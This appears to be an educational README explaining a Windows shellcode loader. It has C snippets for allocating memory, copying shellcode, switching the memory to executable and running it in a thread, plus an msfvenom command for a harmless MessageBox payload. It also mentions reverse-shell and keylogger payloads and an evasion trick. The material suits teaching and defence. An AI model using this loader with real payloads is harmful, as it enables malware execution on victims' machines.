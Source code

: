 

# How a Windows Shellcode Loader Works

## 1. Introduction

Malware and penetration-testing tools often need to **inject and execute shellcode** inside a process. A **loader** is a small program that prepares memory, copies shellcode into it, makes it executable, and then runs it.

In this demo, instead of something malicious, the payload is a harmless **MessageBox** generated using `msfvenom`.

---

## 2. The Loader Workflow

### Step 1 – Reserve memory

```c
memory_for_payload = VirtualAlloc(
    0,                        // let the system choose address
    actual_payload_length,    // size of payload
    MEM_COMMIT | MEM_RESERVE, // commit & reserve memory
    PAGE_READWRITE            // start as Read/Write
);
```

* Allocates memory in the process’s address space.
* Windows **DEP (Data Execution Prevention)** blocks execution in RW memory, so we start with RW and later change it.

---

### Step 2 – Copy the shellcode

```c
RtlMoveMemory(memory_for_payload, actual_payload, actual_payload_length);
```

* Copies the payload (shellcode bytes) into the allocated buffer.
* Equivalent to `memcpy()`, but many malware samples use `RtlMoveMemory` to look less suspicious.

---

### Step 3 – Change memory protection

```c
VirtualProtect(memory_for_payload, actual_payload_length,
               PAGE_EXECUTE_READ, &previous_protection_level);
```

* Changes the memory from RW → RX (executable).
* This bypasses DEP so code inside that buffer can be executed.

---

### Step 4 – Run the shellcode

```c
thread_handle = CreateThread(
    0, 0,
    (LPTHREAD_START_ROUTINE)memory_for_payload,
    0, 0, 0
);
WaitForSingleObject(thread_handle, -1);
```

* Creates a new thread with the entry point set to the **shellcode buffer**.
* Waits for the thread to finish (so program doesn’t exit before the shellcode runs).

---

## 3. The Payload

The payload is **raw shellcode**. In real malware, this could be:

* Reverse shell
* Keylogger
* Process injection

But here, for safety, we use:

```bash
msfvenom -p windows/x64/messagebox TITLE="Hello" TEXT="It works!" -f c > payload.c
```

This produces shellcode that **calls `MessageBoxA`**, showing a harmless popup.

---

## 4. Expected Behavior

When you run the compiled loader:

* Allocates memory
* Copies payload
* Marks it executable
* Spawns a new thread running the payload

👉 Result: A Windows **message box pops up** with the given title/text.
After you close it, the process exits cleanly.



---


we complied it using cl.exe 


```bash
cl.exe /nologo /EHsc /O2 /Fe:shellcode_loader.exe source.c
```

![result](./img/result.png)

